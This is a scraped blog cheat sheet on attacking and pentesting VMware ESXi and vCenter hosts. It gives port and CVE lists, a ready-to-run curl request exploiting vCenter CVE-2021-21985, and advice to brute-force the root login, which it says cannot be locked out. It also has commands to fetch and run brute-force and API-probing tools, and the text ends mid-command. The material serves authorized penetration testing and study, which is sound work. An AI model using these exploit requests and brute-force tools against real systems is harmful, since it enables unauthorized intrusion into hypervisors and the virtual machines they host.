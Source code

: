 ```yaml
---
title: Attacking and Pentesting VMWare ESXi Hosts
url: https://www.hackingdream.net/2023/08/attacking-and-pentesting-vmware-esxi.html
source: Hacking Dream
date: 2023-08-12
fetch_date: 2025-10-04T12:00:44.185399
---
```


# Attacking and Pentesting VMWare ESXi Hosts

* [Home](http://www.hackingdream.net)
* [About Author](http://www.hackingdream.net/p/about-author.html)
* [Contact US](http://www.hackingdream.net/p/contact-us.html)

[# ![Hacking Dream](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEgI3MZul9awsB7xmLlAs9J9xDOsiYxbMQoa4EQkvg9T9oe4q5zkZRqV0W4UN2KhrQQWPLveTvQ9kkuHu2HfrahqY0Gc53G1cVCwQNY2G3MVkEOJoDvLIK9lFtBUc-HhRciiteWdHYV4SaE/s1600/Size-Modified.png)](https://www.hackingdream.net/)

Main menu

close

* [Home](http://www.hackingdream.net)
* [AI Sec](https://www.hackingdream.net/search/label/AI)
* [AI Pentest](http://www.hackingdream.net/search/label/AI%20Attacks)
* [Cheatsheets](https://www.hackingdream.net/search/label/Cheatsheet)
* [Pentest](https://www.hackingdream.net/search/label/Pentest)
* [\_Active Directory](https://www.hackingdream.net/search/label/Active%20Directory)
* [\_Linux](http://www.hackingdream.net/search/label/Kali%20Linux)
* [\_Wireless](http://www.hackingdream.net/search/label/Wifi%20Hacking)
* [\_Target Hacking](http://www.hackingdream.net/search/label/Target%20Hacking)
* [Purple Team](https://www.hackingdream.net/search/label/Purple%20Team)
* [Bin Exp](https://www.hackingdream.net/search/label/Exploitation)
* How To
* [\_Blogging](http://www.hackingdream.net/search/label/Blogging)
* [\_Solved Problems](http://www.hackingdream.net/search/label/Solved%20Problems)
* [\_Money Making](http://www.hackingdream.net/search/label/Money%20Making)
* [\_Top Ten](http://www.hackingdream.net/search/label/Top%20Ten)
* [\_Gaming](http://www.hackingdream.net/search/label/Games)

### Attacking and Pentesting VMWare ESXi Hosts

[August 11, 2023](https://www.hackingdream.net/2023/08/attacking-and-pentesting-vmware-esxi.html "permanent link")

Before getting into the Attacking and Exploitation, it is recommended to know the difference between vSphere, vCenter and ESXI/ESX hosts.

**VMware vSphere:** VMware vSphere is the name given for the comprehensive virtualization platform that includes multiple software products and tools for creating, managing, and running virtual machines (VMs) on a physical server. It provides features like resource management, high availability, and centralized management.

**vCenter Server:** vCenter Server is a key component of the vSphere platform. It serves as a centralized management system that enables administrators to control and monitor multiple ESXi hosts and VMs. It offers features like VMotion, Distributed Resource Scheduler (DRS), and centralized management of virtual infrastructure.

**ESXi (VMware vSphere Hypervisor):** ESXi is a bare-metal hypervisor, which is a type 1 hypervisor installed directly on the physical server hardware. It provides the foundation for running VMs by managing the physical resources of the host, such as CPU, memory, storage, and networking, while also supporting features like vMotion and High Availability (HA). ESXi hosts are like a normal vmware or virual box that we usually setup locally - it enables users to create VM's on demand. On the other hand, vCenter Server is a management console which has the capability to control/manage Multiple ESXi hosts at once.

[![](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEhm3_Nsm8cjUTmoHK7kZ4jUv2YJ_vD8PI2bc5acFb7mO0r7ZdYQGAhHApuWhjy0a05-1iDgqYz94J1wMUhggtlGdG0cPP-Dl310XVcyPC5mu1SwfT4POi43NZbC7CGSVcjcOlp0NAl_DrDRoL2mevgWBKHlfmhyKpehtestRc3jkjVsj8cklwP41goSOoFh/w640-h189/vmware%20esxi.png)](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEhm3_Nsm8cjUTmoHK7kZ4jUv2YJ_vD8PI2bc5acFb7mO0r7ZdYQGAhHApuWhjy0a05-1iDgqYz94J1wMUhggtlGdG0cPP-Dl310XVcyPC5mu1SwfT4POi43NZbC7CGSVcjcOlp0NAl_DrDRoL2mevgWBKHlfmhyKpehtestRc3jkjVsj8cklwP41goSOoFh/s1400/vmware%20esxi.png)

```
Reference Links

1. Soap API Guide
2. Ports and Services
3. Vcenter Security Guide  ESXi Security
4. REST VAPI-HTTP Queries
5. vAPI REST API - New

Techniques

1. CVE-2021-21974 Exploit
2. VMware ESXi Zero-Day Used by Chinese Espionage Actor to Perform Privileged Guest Operations on Compromised Hypervisors | Mandiant
3. Zero Day Initiative — CVE-2020-3992 & CVE-2021-21974: Pre-Auth Remote Code Execution in VMware ESXi
```

```
Common Ports

22 - SSH Access to ESXi Host
161 - SNMP
80, 443 - ESXi Web Server, Client connector/ ESXi Host Client
902 - VMware Authentication Daemon
3260 - iscsi
5989 - CIM Broker
8000 - ESXi hosts listen on port 8000 for TCP connections from remote ESXi hosts for vMotion traffic
8080 - Used by the Storage Management Service (SMS) that is part of vCenter to access information about Virtual SAN storage profiles, capabilities, and compliance.
8889 - WS-Management for SOAP
8083, 9080, 8182, 8300, 9080, 9999 - vAPI-PicoHttp Service
```

```
Basics

- Look for the Fingerprint on Port 443 and 80 to get the ESXi Version
- See if Port 22 is enabled - Can be used to login to ESXi Shell (Default Username is root and cannot be locked out - bruteforce it)
- SSO can be enabled for the login
- To use ESXCLI, you need vCenter Server Root Certificate, you can download it if you know the address.
- Check the ESXi Host Certificates for vCenter Server address, from which you can download the certificate.
- Check for servers below 7.0.3u (Multiple Vulnerabilities)
- curl -kL https://esxi.fqdn/host -v - all the hosts for host endpoint
- Check if TCP port 427 is open for any server - SLP Service, After the patch of CVE-2020-3992 and CVE-2021-21974, SLP service is only accessible from local (127.0.0.1(ipv4) or::1(ipv6))
```

```
CVE's

CVE-2019-5544(heap buffer overflow)

CVE-2020-3992(use after free)

CVE-2021-21974(heap buffer overflow)

CVE-2022-31699(heap buffer overflow)=
```

```
VMware vCenter Server CVE-2021-21985 Remote Code Execution Vulnerability

curl -s -k -X $'POST' -H 'Host: <target>' -H 'User-Agent: curl'
-H 'Content-Type: application/json'
-H 'Connection: close'
--data-binary $'{\"methodInput\":[{\"type\":\"ClusterComputeResource\",\"value\": null,\"serverGuid\": null}]}\x0d\x0a' https://esxi.fqdn/ui/h5-vsan/rest/proxy/service/com.vmware.vsan.client.services.capability.VsanCapabilityProvider/getClusterCapabilityData
```

```
Testing VMWARE API Access - Port 443

go to https://github.com/Bhanunamikaze/VMwareAPIPentest or
git clone https://github.com/Bhanunamikaze/VMwareAPIPentest.git

#Run below command to run a set of predefined queries against given set of hosts to check the authentication status of the API's
ESXi_Soap_Pentest.py hosts.txt output.txt

#if you want to test the queries manually - you can find the soap queries here
raw.githubusercontent.com/Bhanunamikaze/VMwareAPIPentest/main/Soap_Queries.xml
```

```
Access ESXi Hosts Remotely

Register and download esxcli from here - esxcli works only from ESXi 7.0 Version

Basic Commands:

# Accessing using config file
# Save the below contents into a file and use it as -config
VI_PSC = XX.XXX.XXX.XX
VI_USERNAME = administrator@vsphere.local
VI_PASSWORD = admin_password
VI_PROTOCOL = https
VI_SERVER = my_vc

Example:
esxcli --config <my_saved_config> network ip interface list
esxcli -s 10.10.10.10 --cacertsfile cert.0

# Allin Command Line
esxcli --server <vc_hostname_or_IP> --username <privileged_user> --password <password> --vihost
<esxi_hostname_or_IP> <namespace> [<namespace]...> <command> --<option_name=option_value>
```

```
Bruteforce ESXI Hosts

 pip install pyVim
 git clone https://github.com/Bhanunamikaze/ESXiBrute.git
 cd ESXiBrute
 python ESXi_Brute.py --hosts hosts.txt --usernames usernames.txt --passwords passwords.txt --cert cert.pem [--output output.csv]

Reference: ESXiBrute

Note: You can find the certificate from VMWare vCenter UI (You can find vCenter IP Address/Hostname from ESXi HTTPS Certificate - Port 443)
```

```
Bruteforce ESXi Hosts if you dont have Cert/Hostname

Download and Install VMware vSphere Resxtop - VMware {code}

# Add the library to PATH
export LD_LIBRARY_PATH=/usr/lib/vmware/resxtop/

wget raw.githubusercontent.com/Bhanunamikaze/ESXiBrute/main/Resxtop_Brute.sh

chmod +x Resxtop_Brute.sh
./Resxtop_Brute...